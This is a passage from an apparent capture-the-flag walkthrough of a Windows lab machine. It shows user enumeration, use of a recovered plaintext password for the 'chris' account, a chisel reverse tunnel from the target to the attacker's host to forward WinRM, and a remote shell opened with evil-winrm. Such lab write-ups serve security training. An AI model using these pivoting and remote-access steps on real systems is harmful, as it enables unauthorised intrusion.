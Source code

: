 ```shell
```

And there is a `chris` user. Let's test the password using `nxc`.

```shell
PS C:\inetpub\wwwroot\user> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chris                    DefaultAccount           
Guest                    WDAGUtilityAccount       
The command completed with one or more errors.
```

![](assets/Pasted%20image%2020250612182144.png)

The password works for `chris`, so port forward `winrm` to access the machine as `chris`.

Transfer `chisel` to the host and create a port forwarding

```shell
$ ./chisel server --port 8888 --reverse
2025/06/12 18:28:50 server: Reverse tunnelling enabled
2025/06/12 18:28:50 server: Fingerprint 7yf/mGFiCoZ+2gBRK50StHJXJEC9ZBhDfPxGwJyI6DA=
2025/06/12 18:28:50 server: Listening on http://0.0.0.0:8888
2025/06/12 18:30:15 server: session#1: tun: proxy#R:5985=>localhost:5985: Listening
```

```shell
PS C:\users\public> .\chisel.exe client 10.10.14.17:8888 R:5985:localhost:5985
.\chisel.exe : 2025/06/12 16:32:03 client: Connecting to ws://10.10.14.17:8888
At line:1 char:1
+ .\chisel.exe client 10.10.14.17:8888 R:5985:localhost:5985
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (2025/06/12 16:3...0.10.14.17:8888:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
 
2025/06/12 16:32:04 client: Connected (Latency 42.2454ms)
```

Connect to it via `evil-winrm`

```shell
$ evil-winrm -i localhost -u chris -p 36mEAhz/B8xQ~2VM

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chris\Documents> whoami
sniper\chris
```
